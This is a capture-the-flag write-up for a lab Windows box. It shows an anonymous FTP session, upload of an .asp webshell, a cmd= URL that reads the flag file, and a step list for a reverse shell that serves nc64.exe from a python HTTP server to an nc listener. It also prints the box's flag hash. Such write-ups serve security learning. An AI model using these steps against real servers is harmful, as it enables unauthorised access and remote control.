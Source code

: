 
6. We got anonymous login to the FTP server, and can put files on the share. From dirb we found a 'upload' directory,
meaning we can probably upload a shell on the FTP-server, and trigger it through the URL.

Seems like we can upload most files, however file bigger then 1100 seem to get stuck in upload.
None of .aspx, .php, .py, .war, .exe, .jsp seem to work. I went with a minimal (size 1099) .asp webshell that worked.

From the webshell we can grab user.txt (called proof.txt in this box)

ftp> open 10.10.10.116
  Connected to 10.10.10.116.
  220 Microsoft FTP Service
  Name (10.10.10.116:root): anonymous
  331 Anonymous access allowed, send identity (e-mail name) as password.
  Password:
  230 User logged in.
  Remote system type is Windows_NT.
ftp> put webshell.asp

Browse: http://10.10.10.116/upload/webshell.asp

Enter: type C:\Users\Destitute\Desktop\proof.txt
or
URL: http://10.10.10.116/upload/webshell.asp?cmd=type+C%3A%5CUsers%5CDestitute%5CDesktop%5Cproof.txt

The server's local address:
10.10.10.116 6E9FDFE0DCB66E700FB9CB824AE5A6FF


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. To get a reverse shell has been very very annoying. I tried everything from one-liners to trigger powershell scripts
over a python3 hosted http.server, trigger executables over smb and more - but all failed, even though the victim
fetched the vulnerable file/scripts.

The solution was primal:
  a. Setup local python3 http.server in a directory containing nc64.exe
  b. Setup your nc listener
  c. Upload a webshell through the anonymous FTP
  d. Quickly create C:\tmp before webshell is deleted
  e. Quickly upload nc64.exe to C:\tmp
  f. Even faster execute a reverse connection from C:\tmp\nc64.exe before BOTH webshell and nc64.exe is deleted
  g. Grab shell and profit
